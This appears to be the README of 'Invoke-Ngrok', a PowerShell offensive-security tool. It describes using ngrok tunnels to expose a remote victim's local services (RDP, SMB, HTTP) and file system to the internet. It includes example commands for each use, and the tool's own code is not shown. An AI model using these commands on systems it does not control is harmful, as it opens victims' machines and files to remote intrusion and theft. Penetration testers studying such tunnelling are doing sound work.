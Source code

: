 # INVOKE-NGROK 
 
Expose local port of a remote victim over Internet. 
Use it to exploit or access local service remotely without public IP (RDP, SQL, SSH, SMB, FTP ...)

Help:
      Parameters: 
		-auth : Your Ngrok API, go to ngrok dashborad to retreive it
		-tcp  : The protocol used by the service you want to expose remotely (tcp/http)
		-port : The port used by the service you want to expose remotely
		-custom : Customie ngrok parameters you want to execute
		-fileserver : Serve local file system over Internet
	example:

	Invoke-Ngrok -auth xxxxxxxxx -protocol tcp -port 3389  #expose RDP session over Internet 
	Invoke-Ngrok -auth xxxxxxxxx -protocol tcp -port 445   #expose SMB port over Internet
	Invoke-Ngrok -auth xxxxxxxxx -protocol http -port 80   #expose HTTP port over Internet
	
	Invoke-Ngrok -fileserver "C:\Users\alan\Public Folder" # Expose local file system directories over internet
	
	Invoke-Ngrok -custom "http -region=us -hostname=dev.example.com 8000" #Custom ngrok command you want to execute. 
	
Author: @ThebenyGreen
  - EyesOpenSecurity

Credits -  inconshreveable - <alan@ngrok.com> 
